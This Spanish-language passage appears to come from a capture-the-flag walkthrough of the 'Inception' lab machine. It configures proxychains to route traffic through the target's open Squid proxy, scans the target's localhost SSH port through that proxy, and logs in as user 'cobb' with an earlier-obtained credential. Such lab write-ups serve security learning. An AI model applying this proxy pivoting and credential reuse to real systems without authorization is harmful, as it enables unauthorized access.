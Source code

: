 # Conectandonos a la maquina por SSH gracias al Squid Proxy
Como veiamos antes tenemos el puerto 3128 abierto con un servicio de `Squid Proxy`
Procedemos a configurar el archivo de proxychains4.conf para apuntar a la maquina victima. 
Modificamos los siguiente: 
Comentamos la primera linea que se ve aqui y añadimos la ultima linea al codigo, justo al final del todo en el archivo de configuracion.
```bash
# nano /etc/proxychains4.conf

#socks4         127.0.0.1 9050
http    10.10.10.67 3128
```

Ahora ya podemos usar nmap para verificar que pasamos por el squid proxy con proxychains
```bash
# proxychains nmap -p22 -sT -v -n 127.0.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-02 20:19 CET
Initiating Connect Scan at 20:19
Scanning 127.0.0.1 [1 port]
[proxychains] Strict chain  ...  10.10.10.67:3128  ...  127.0.0.1:22  ...  OK
Discovered open port 22/tcp on 127.0.0.1
Completed Connect Scan at 20:19, 0.17s elapsed (1 total ports)
Nmap scan report for 127.0.0.1
Host is up (0.17s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
```

Pudiendo asi pues alcanzar el servicio ssh para conectarnos como el usuario `cobb` con la credencial obtenida anteriormente
```bash
# proxychains ssh cobb@127.0.0.1           
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.67:3128  ...  127.0.0.1:22  ...  OK
cobb@127.0.0.1's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Nov 30 20:06:16 2017 from 127.0.0.1
cobb@Inception:~$ 
```
